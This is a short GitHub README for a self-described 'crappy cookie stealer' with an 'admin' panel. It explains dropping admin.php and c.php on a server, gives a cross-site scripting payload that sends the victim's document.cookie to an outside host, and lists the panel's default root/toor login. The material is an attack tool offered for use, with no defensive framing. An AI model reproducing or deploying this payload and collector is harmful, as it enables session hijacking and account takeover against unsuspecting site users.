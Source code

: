 ![Cookie](https://user-images.githubusercontent.com/8536299/99194653-0f8b8b80-2781-11eb-9415-d4a6efc5920e.png)

# Cookie-stealer
Crappy cookie stealer with 'admin' panel made long time ago..

```admin.php``` to view your cookies, ```c.php``` to grab the cookies.
c.php will write the cookies into admin.php, be sure to have write access on your server.

### Usage
1. Drop ```admin.php``` and ```c.php``` in the same directory.
2. Go to your vulnerable formulary and send him a payload to your ```c.php?c=``` something like this:
 * `<script>document.write("<img src='http://fs.blog/c.php?c="+document.cookie+"'></img>");</script>`
3. Navigate to admin.php, login with username: **root** password: **toor**
4. ???
5. Profit.
